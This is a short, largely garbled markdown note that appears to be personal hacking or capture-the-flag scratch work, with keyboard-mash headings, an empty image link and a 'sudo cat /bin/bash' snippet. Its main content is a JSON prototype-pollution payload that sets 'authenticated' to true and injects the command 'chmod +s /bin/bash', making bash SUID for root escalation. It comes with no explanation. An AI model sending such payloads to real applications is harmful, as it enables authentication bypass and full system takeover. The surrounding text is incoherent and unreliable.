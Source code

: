 # DFJSAKLFHJDKLSA
## FDNJSKAF
###### DJKSALF

![GATITO1]()

 ``` bash
sudo cat /bin/bash
```

``` html 
{"__proto__":{"authenticated":true,"cmd":"chmod +s /bin/bash"}}

```

[[Robots.txt]]

